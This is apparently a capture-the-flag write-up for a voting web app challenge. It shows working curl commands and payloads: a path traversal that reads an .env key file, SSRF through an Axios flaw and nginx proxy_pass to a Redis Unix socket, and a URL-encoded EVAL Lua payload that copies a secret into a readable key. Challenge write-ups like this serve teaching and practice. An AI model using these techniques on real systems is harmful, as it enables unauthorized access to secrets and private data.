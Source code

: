 # Week 3 - Following Protocol
For this challenge, we're provided with the source code to a voting web app and asked to find out who the user "wbc" has voted for. The source contains a Docker compose file and several different apps, tied together with a front end Node app that we're given the URL for.
### Examining the Source
Inside the `restore.sh` file for the redis container we can see our target data, a redis field for the wbc user with a `certifier`, which is redacted, and `voted_for` data. Looking at the code for the `python-backend`, we can see that the `voted_for` is encrypted before being stored, and the `certifier` forms part of the encryption key for the data. So our objective is to obtain the `certifier` and the `base_key` value to obtain the encryption key for the `voted_for` data. To interact with these backend services, we need to use the `/api/*` endpoint in the front end Node application. We can direct requests to different services using the `v1`, `v2`, and `img` prefixes.
### Obtaining the Certifier and Base Key
This part should be fairly simple. The Python backend app on the `v2` service ha a `/certificate` endpoint that allows us to obtain a PDF file containing the certifier for any user. A simple request to this endpoint should be all that's needed for this step.
```shell
$ curl http://192.168.1.1:8000/api/v2/certificate -H "Content-Type: application/x-www-form-urlencoded" -d "name=wbc" > wbc_certifier.pdf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2226  100  2218  100     8  21137     76 --:--:-- --:--:-- --:--:-- 21403
```
If we open up our PDF we find that we now have the "Certification Code" for our wbc user. Next is our base key. If we look at the certificate endpoint again, you might notice that the name provided is used for the output path with no validation or traversal detection. In the Dockerfile for the Python backend, we can see that the base key is stored in the `/app/.env` filepath. We can use this information to obtain the key from that file.
```shell
$ curl http://192.168.1.1:8000/api/v2/certificate -H "Content-Type: application/x-www-form-urlencoded" -d "name=../.env"                
ENCRYPTION_KEY=66616b656b6579736f727279
```
Though the application tries to write a PDF to that path, there's a check to catch if the file already exists, preventing the app from producing an error.
### ~~Decrypting~~ Finding the Data
Now we have our full decryption key, we can decrypt the data in the `restore.sh` by reversing the encryption function in the Python backend.
```python
import base64
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend

encrypted_vote = base64.b64decode('dGhpc2hhc2JlZW5yZWRhY3RlZGZvcnlvdSxnb2ZpbmR0aGVyZWFsdmFsdWVub3ch')
certifier = 'Ak4gHIGV'
base_key = '66616b656b6579736f727279'

def decrypt_value(key: bytes, value: bytes) -> bytes:
    backend = default_backend()
    iv = value[:16]
    data = value[16:]
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=backend)
    decryptor = cipher.decryptor()
    return decryptor.update(data) + decryptor.finalize()

key = (certifier + base_key).encode()
print(decrypt_value(key, encrypted_vote).decode())
```
Oh dear, that didn't work. If we actually decode the Base64 we've been given into text we can see that there's a bit more to this challenge yet. ```
```shell
$ base64 -D
dGhpc2hhc2JlZW5yZWRhY3RlZGZvcnlvdSxnb2ZpbmR0aGVyZWFsdmFsdWVub3ch
thishasbeenredactedforyou,gofindtherealvaluenow!
```
So our final task is to obtain the `voted_for` data from the redis server.
### Talking to Redis
To have any chance of fetching the data out, we need to find a way to talk to the redis server. None of our backend servers offer functions to fetch the `voted_for`, with the only reads performed being the `certifier` for the certificate endpoint, and the `img:*` keys in the nginx config. Calls to the image API must contain only digits otherwise we're given a 404 so this is unlikely to be of any help. Helpfully, the nginx `proxy_pass` setting is configured in a way where we can take advantage and modify the recieving location to wherever we like. On the node front end, the `allowAbsoluteUrls` setting on the Axios client has been set to false, which normally would prevent us from overriding the base URL. In this case however, the app is using Axios version 1.8.1, which contains a [vulnerability causing this setting to be ignored](https://github.com/axios/axios/issues/6806). This allows us to craft our own URL strings to send to the nginx backend. The redis server has been setup to disable TCP connections, but the socket is available and has been mounted to the nginx container for the image API. nginx does allow connections to Unix sockets via the `proxy_pass` setting, so this is what we'll use to talk to redis. To connect to the socket our URL will look like this:
```shell
$ curl -X HGET http://192.168.1.1:8000/api/test/http://nginx/unix:%2Fredis%2Fredis.sock:wbc%20voted_for
Request failed with status code 502
```
Unfortunately it's going to be slightly more complicated than this. There's two things we have to deal with when creating our call. The first is the extra data at the end of the URL, the `.backend.wbc/$2` part of the `proxy_pass` config. The second is a security feature in redis.
### Crafting a Payload
This is where we need to get a little bit creative. While we can connect to redis using nginx, we're unable to read a response as we will always receive a 502 error. If you launch a local version of the challenge and look at the redis logs you'll see the following message:
```
Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host: commands to Redis. This is likely due to an attacker attempting to use Cross Protocol Scripting to compromise your Redis instance. Connection aborted.`
```
Cross Protocol Scripting is exactly what we're trying to do here. While we can modify the HTTP call to use a verb other than `POST`, we can't stop nginx from sending the `Host` header, so redis will detect this and close the connection. This causes nginx to return the 502 response. While there may be a method to manipulate the redis output so nginx returns a successful response, I decided to use a different method. Before detecting the host header, redis will execute the command given on the initial line containing our HTTP verb and path. We also have an endpoint where we have some limited control over the key we fetch from redis, that being the image service. So our goal is to: fetch the data from the `wbc voted_for` key, and store it in an `img:*` key for us to fetch. We can do this using the `EVAL` command in redis, which executes a lua script in a sandboxed environment. Our lua script will look like this:
```lua
local b = redis.call('hget', 'wbc', 'voted_for'); 
redis.call('set', 'img:678', b);
```
We also need to deal with the `.backend.wbc/$2` part of our URL, as well as the HTTP version suffix of the request. The `EVAL` command requires you to specify the number of arguments you are providing for the script, and although we haven't used any arguments, we can still tell redis that these two pieces are arguments for our script, completing our payload and executing our command. We also need to add a trailing slash to the URL to ensure we're matching the nginx location regex.
```shell
$ curl -X EVAL http://192.168.1.1:8000/api/test/http://nginx/unix:%2Fredis%2Fredis.sock:%22local%20b%20%3D%20redis.call%28%27hget%27%2C%20%27wbc%27%2C%20%27voted_for%27%29%3B%20redis.call%28%27set%27%2C%20%27img%3A678%27%2C%20b%29%3B%22%202%20/
Request failed with status code 502
```
This is the command redis will receive from nginx as a result of this this request.
```redis
EVAL "local b = redis.call('hget', 'wbc', 'voted_for'); redis.call('set', 'img:678', b);" 2 .backend.wbc/ HTTP/1.0
```
Finally we need to grab the data from our chosen image key.
```shell
$ curl http://192.168.1.1:8000/api/img/678
Y3lzZWF7dGhpc2lzbid0dGhlcmVhbGRhdGFlaXRoZXJzb3JyeSF9
```
 Now we just need to use this data in our previous decryption script and get the flag!